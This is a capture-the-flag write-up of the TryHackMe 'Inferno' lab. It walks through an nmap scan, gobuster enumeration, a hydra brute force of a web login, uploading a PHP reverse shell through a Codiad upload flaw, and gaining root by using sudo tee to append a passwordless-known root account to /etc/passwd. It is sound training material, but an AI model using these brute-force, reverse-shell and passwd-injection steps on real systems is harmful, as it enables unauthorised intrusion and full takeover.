THM Inferno
Enumeration :
Nmap Scan
# Nmap 7.93 scan initiated Sun Jun 18 00:10:30 2023 as: nmap -A -p23,22,21,25,80,88,110,106,194,389,464,636,750,808,777,783,775,779,873,1001,1178,1210,1236,1313,1314,1300,1529,2000,2003,443,2121,2150,2604,2601,2605,2603,2600,2606,2602,2608,2607,2989,2988,4224,4557,4559,4600,4949,5052,5051,5151,5355,5354,5432,5555,5675,5667,5674,5666,5680,6346,6514,6566,6667,8021,8081,8088,8990,9098,9359,9418,9673,10000,10083,10082,10081,11201,15345,17004,17003,17001,17002,20012,20011,24554,27374,30865,57000,60177,60179 -oN nmap_intial.txt 10.10.46.0
Nmap scan report for 10.10.46.0
Host is up (0.16s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp?
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d7ec1a7f6274da2964b3ce1ee26804f7 (RSA)
| 256 de4feefa862efbbd4cdcf96773028434 (ECDSA)
|_ 256 e26d8de1a8d0bd97cb9abc03c3f8d885 (ED25519)
23/tcp open telnet?
25/tcp open smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp open kerberos-sec?
106/tcp open pop3pw?
110/tcp open pop3?
194/tcp open irc?
|_irc-info: Unable to open connection
389/tcp open ldap?
443/tcp open https?
464/tcp open kpasswd5?
636/tcp open ldapssl?
750/tcp open kerberos?
775/tcp open entomb?
777/tcp open multiling-http?
779/tcp open unknown
783/tcp open spamassassin?
808/tcp open ccproxy-http?
873/tcp open rsync?
1001/tcp open webpush?
1178/tcp open skkserv?
1210/tcp open eoss?
1236/tcp open bvcontrol?
1300/tcp open h323hostcallsc?
1313/tcp open bmc_patroldb?
1314/tcp open pdps?
1529/tcp open support?
2000/tcp open cisco-sccp?
2003/tcp open finger?
2121/tcp open ccproxy-ftp?
2150/tcp open dynamic3d?
2600/tcp open zebrasrv?
2601/tcp open zebra?
2602/tcp open ripd?
2603/tcp open ripngd?
2604/tcp open ospfd?
2605/tcp open bgpd?
2606/tcp open netmon?
2607/tcp open connection?
2608/tcp open wag-service?
2988/tcp open hippad?
2989/tcp open zarkov?
4224/tcp open xtell?
4557/tcp open fax?
4559/tcp open hylafax?
4600/tcp open piranha1?
4949/tcp open munin?
5051/tcp open ida-agent?
5052/tcp open ita-manager?
5151/tcp open esri_sde?
5354/tcp open mdnsresponder?
5355/tcp open llmnr?
5432/tcp open postgresql?
5555/tcp open freeciv?
5666/tcp open nrpe?
5667/tcp open unknown
5674/tcp open hyperscsi-port?
5675/tcp open v5ua?
5680/tcp open canna?
6346/tcp open gnutella?
6514/tcp open syslog-tls?
6566/tcp open sane-port?
6667/tcp open irc?
|_irc-info: Unable to open connection
8021/tcp open ftp-proxy?
8081/tcp open blackice-icecap?
8088/tcp open radan-http?
8990/tcp open http-wmap?
9098/tcp open unknown
9359/tcp open unknown
9418/tcp open git?
9673/tcp open unknown
10000/tcp open snet-sensor-mgmt?
10081/tcp open famdc?
10082/tcp open amandaidx?
10083/tcp open amidxtape?
11201/tcp open smsqp?
15345/tcp open xpilot?
17001/tcp open unknown
17002/tcp open unknown
17003/tcp open unknown
17004/tcp open unknown
20011/tcp open unknown
20012/tcp open ss-idi-disc?
24554/tcp open binkp?
27374/tcp open subseven?
30865/tcp open unknown
57000/tcp open unknown
60177/tcp open unknown
60179/tcp open unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 443/tcp)
HOP RTT ADDRESS
1 37.32 ms 10.17.0.1
2 ... 4
5 161.05 ms 10.10.46.0
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 18 00:41:56 2023 -- 1 IP address (1 host up) scanned in 1885.85 seconds
There are a lot of open ports but they are TCP wrapped. Only SSH(22) & Webserver(80) port are open.
Web Directory Enumeration
We will use gobuster to enumerate for directories. We used the medium list.
gobuster dir -u http://10.10.142.54 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

The status code states that the directory access is not authorized.

Foothold :
We will use hydra to brute force this login page. We can try usernames like admin, dante, dante1, root etc & the rockyou password file.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.142.54 http-get /inferno

After using this password in two entry pages we get to a codiad webinterface. We researched codiad in google & usedthe following upload vulnerability in codiad to get initial foothold.

Go to the following location & upload a php reverse shell.

The upload functionality will come after right clicking the file navigation icon.

Then we uploaded a php-reverse shell from https://github.com/pentestmonkey/php-reverse-shell after editing our listening tunnel IP & port to the INF directory.

Once upload is complete, we start a listener & go the exact path from the URL.
http://10.10.142.54/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php

As we can see, we have got initial access to the system.
We upgraded our shell to a python bash shell using the following commands.
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo;fg
Next, we found the local.txt file in /home/dante directory, but it is only accessible by the user dante.

We searched in dante's home directory & found the following file. It had hex code which we decoded using cyberchef with From Hex recipe to get the credentials for dante.


We login the server using ssh & above credentials. We get the user flag in the home directory.
Privilege Escalation :
We checked sudo and found tee was allowed to run with sudo privileges without any password by the user dante.

we use tee to write into /etc/passwd our user which we set the password using openssl
openssl passwd -6 -salt “ray” “pass123”
we add the password into a user ray inside the /etc/passwd file & switch to the user. Then get the contents of root flag.
echo 'ray:$6$ray$pomzXXqZKzyGGGxaLfVILQrJkmd89yxQR6vbh46g8gHf8uSM1qlCFTATbHgyEwljGZgkXRv2nCyUiLLUdub480:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd

Thanks !!